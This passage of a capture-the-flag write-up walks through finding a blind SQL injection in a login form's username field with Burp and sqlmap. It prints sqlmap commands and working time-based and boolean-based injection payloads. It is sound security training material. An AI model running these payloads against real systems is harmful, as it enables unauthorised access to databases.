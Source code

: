 ![](/img/image-20221014173543383.png)

When I set that `1=1` to something false, the result is different:

![](/img/image-20221014173619711.png)

That means I can put more complicated queries in in place of the `1=1`
and get yes/no answers.

#### Identify Injection in sqlmap

Actually getting data out of a blind boolean injection takes a lot of
brute forcing, and `sqlmap` is the tool to do that. I'll find a request
in Burp history where I tried to log in with something like "admin" /
"admin", right click on that request, and select "Copy to file", saving
it as `login.req`.

Running `sqlmap` with this request finds only a time-based injection:



    oxdf@hacky$ sqlmap -r login.req --batch
    ...[snip]...
    POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 210 HTTP(s) requests:
    ---                                                                                                                     
    Parameter: username (POST)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: username=admin' AND (SELECT 7458 FROM (SELECT(SLEEP(5)))rnYG) AND 'xsoH'='xsoH&password=admin
    ---  
    ...[snip]...



Time-based is really slow, and I know there's a boolean-based one. I'll
specify the technique and up the level and it finds it:



    oxdf@hacky$ sqlmap -r login.req --batch --technique B --level 5
    ...[snip]...
    POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 137 HTTP(s) requests:
    ---
    Parameter: username (POST)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
        Payload: username=admin' AND 1086=(SELECT (CASE WHEN (1086=1086) THEN 1086 ELSE (SELECT 9128 UNION SELECT 2646) END))-- -&password=admin
    ---
    ...[snip]...



#### Enumerate with sqlmap
